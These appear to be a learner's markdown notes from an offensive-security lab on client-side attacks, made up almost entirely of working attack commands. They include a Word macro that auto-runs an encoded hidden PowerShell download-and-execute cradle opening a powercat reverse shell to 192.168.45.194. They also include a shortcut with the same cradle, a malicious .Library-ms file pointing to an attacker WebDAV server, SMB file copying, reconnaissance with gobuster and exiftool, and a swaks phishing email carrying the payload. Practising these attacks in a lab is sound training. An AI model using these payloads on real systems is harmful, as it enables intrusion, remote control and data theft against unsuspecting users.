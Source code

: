 # client side attacks

```
gobuster dir -x pdf -u http://192.168.197.197:80 -w /usr/share/wordlists/dirb/big.txt


xfreerdp -u offsec -p lab 192.168.229.196:3389

Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String

    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
    Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
    Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
    Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
    Str = Str + "ALgAxADYAOAAuADQANQAuADEAOQA0AC8AcABvAHcAZQByAGMAY"
    Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
    Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADEAOQA0ACAALQBwA"
    Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
    Str = Str + "A"
    
    CreateObject("Wscript.Shell").Run Str
End Sub
```

copy file from windows to kali - set up smb server

on kali
```
mkdir smb
impacket-smbserver -smb2support smb smb
```

from windows - cmd
```
net use \\192.168.45.194\smb
copy \Users\offsec\Desktop\macro.doc \\192.168.45.194\smb
```

### windows libraries attacks
on kali
```
pip3 install wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
```

run it with auth disabled
```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
view at http://127.0.0.1

on windows
- in vscode create config.Library-ms in offsec/Desktop

create shortcut
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.194:8000/powercat.ps1');powercat -c 192.168.45.194 -p 4444 -e powershell"
```

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.194</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

get onto the host
```
cd webdav
smbclient //192.168.229.195/share -c 'put config.Library-ms'
ls -r -inc flag.txt
```

### VM 2
```
nmap 192.168.229.199
sudo nmap -p80 -sV 192.168.229.199
gobuster dir -u http://192.168.229.199:80 -w /usr/share/wordlists/dirb/big.txt -p pattern
gobuster dir -u http://192.168.229.199:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x jpg,jpeg,pdf,lnk,conf
```

inspect file to get the user's name
```
exiftool -a -u info.pdf
```

Hint
1) Start by fuzzing the webserver for some hidden files using gobuster ffuf feroxbuster etc.
2) If powercat is not working out for you then feel free to use some other ways to obtain remote code execution
3) Alternatives to powercat could be found at https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows#powershell-shells
4) Make sure you mount the correct path where you have the Webdav folder! Is it root/webdav or /home/kali/webdav?

```
xfreerdp -u offsec -p lab 192.168.229.196:3389

swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach config.Library-ms --server 192.168.229.199 --body body.txt --header "Subject: Problems" --suppress-dat
```











